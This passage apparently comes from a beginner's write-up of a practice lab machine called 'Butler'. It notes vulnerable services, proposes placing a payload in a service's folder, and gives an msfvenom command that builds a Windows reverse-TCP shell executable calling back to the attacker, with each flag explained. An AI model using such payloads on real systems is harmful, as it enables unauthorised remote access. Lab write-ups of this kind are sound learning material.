 And damn it gives a lot of information about the machine

we found some **vulnerable services** running in the machine.

(I don't exactly understand how this vulnerable service can be happened may be some mis configuration right.I need to learn about that actually)

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/eccc88193936f40f1b4df30decf282f79da1fa82/Butler/images/vulnerable%20service.png)

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/eccc88193936f40f1b4df30decf282f79da1fa82/Butler/images/vulnerable%20service%202.png)

what if try to create a payload or malware and we  put that inside the running services main folder so it will also run and we'll get a shell back.

### Payload


So let's create a payload using `msfvenom`

```
$ msfvenom -p  windows/x64/shell_reverse_tcp lhost=[us] lport=7777 -f exe > Wise.exe

------------------------------------

Msfvenom is a tool in Metasploit for creating custom payloads to exploit vulnerabilities.

--------------------------------------------------

$ msfvenom: This is the command to run the tool.

-p windows/x64/shell_reverse_tcp: -p specifies the payload type. Here, it creates a reverse shell for a 64-bit Windows system.

lhost=[us]: lhost is the local host IP address where the payload will connect back. Replace [us] with your IP.

lport=7777: lport is the local port number that the payload will use to connect back.

-f exe: -f specifies the format of the output file, which is exe in this case (a Windows executable).

> Wise.exe: This redirects the output to a file named Wise.exe, which will be your payload.

```
